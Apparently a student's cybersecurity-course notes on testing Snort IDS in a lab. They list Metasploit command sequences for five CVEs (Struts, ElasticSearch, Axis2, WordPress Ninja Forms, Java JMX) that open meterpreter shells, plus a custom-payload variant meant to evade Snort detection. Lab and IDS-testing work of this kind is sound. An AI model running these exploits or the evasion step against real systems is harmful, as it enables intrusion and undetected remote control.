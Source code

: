 cybersecurity base project 2 notes

<REMOTEHOST> = 172.28.128.3
<LOCALHOST> = 172.28.128.4
<SNORTINTERFACE> = 2

 virtualbox-iso: The VM will be run headless, without a GUI. If you want to
 virtualbox-iso: view the screen of the VM, connect via VRDP without a password to
 virtualbox-iso: rdp://127.0.0.1:5985
 virtualbox-iso: Waiting 2m0s for boot...

=Install=
1. Clone
2. vagrant plugin install vagrant-omnibus
3. Vagrant up
=Configuration=
1. Install Snort 2.9.9.0 & snortrules-snapshot-2976
2. Install WinPCap 4.1.1
3. Snort conf changes
4. Test with C:\Snort\bin\snort.exe -c C:\Snort\etc\snort.conf -i <SNORTINTERFACE> -k none -T
5. Ping test works with snort.exe -c C:\Snort\etc\snort.conf -i <SNORTINTERFACE> -A console -k none

Test ping rule local.rules:  alert icmp $EXTERNAL_NET any -> $HOME_NET any (msg:"ICMP test"; sid:10000001; rev:001;)

LHOST 172.28.128.4
RHOST 172.28.128.3

Ruleset: snortrules-snapshot-2976

Discovered
1. CVE-2016-3087 - Apache Struts REST Plugin With Dynamic Method Invocation Remote Code Execution
	Prerequisites: Add 8282 to snort.conf HTTP_PORTS
	1. use exploit/multi/http/struts_dmi_rest_exec
	2. set RHOST <REMOTEHOST>
	3. set RPORT 8282
	4. set payload java/meterpreter/reverse_tcp
	5. set LHOST <LOCALHOST>
	6. run
	7. sysinfo
2. CVE-2014-3120 - ElasticSearch Dynamic Script Arbritrary Java Execution
	Preqrequisites: Uncomment line 812 in server-other.rules ("SERVER-OTHER ElasticSearch script remote code execution attempt")
	1. use exploit/multi/elasticsearch/script_mvel_rce
	2. set RHOST <REMOTEHOST>
	3. set payload java/meterpreter/reverse_tcp
	4. set LHOST <LOCALHOST>
	5. run
	6. sysinfo

3. CVE-2010-0219 - AXIS2 / SAP BusinessObjects Authenticated Code Execution (via SOAP)
	1. use exploit/multi/http/axis2_deployer
	2. set RHOST <REMOTEHOST>
	3. set RPORT 8282
	4. set payload java/meterpreter/reverse_tcp
	5. set LHOST <LOCALHOST>
	5. run
	6. sysinfo

Creating undiscovered exploit:
4. CVE-2016-2019 - Wordpress Ninja Forms Unauthenticated file upload
	1. use exploit/unix/webapp/wp_ninja_forms_unauthenticated_file_upload
	2. set RHOST <REMOTEHOST>
	3. set RPORT 8585
	4. set TARGETURI /wordpress/
	5. set FORM_PATH /index.php/king-of-hearts/
	_To alert snort_
	6. set payload php/meterpreter/bind_tcp
	7. set LHOST <LOCALHOST>
	8. run
	_To not alert snort_
	6. set payload generic/custom
	7. set payloadfile <PATHTOEXPLOIT> (e.g /root/cve_2016-2019_undetected.php)
	8. run
	Note: If you get the following error 
	Exploit failed: NoMethodError undefined method '[]' for nil:nilClass
	Make sure you have version with this fix implemented:
	https://github.com/rapid7/metasploit-framework/commit/f838c9990fa3a7858297ada47288cc67f04d87e4

5. CVE-2015-2342 - Java JMX Server Insecure Configuration Java Code Execution
	1. use exploit/multi/misc/java_jmx_server
	2. set RHOST <REMOTEHOST>
	3. set RPORT 1617
	4. set payload java/meterpreter/reverse_tcp
	5. set LHOST <LOCALHOST>
	6. run
	7. sysinfo
	8. exit
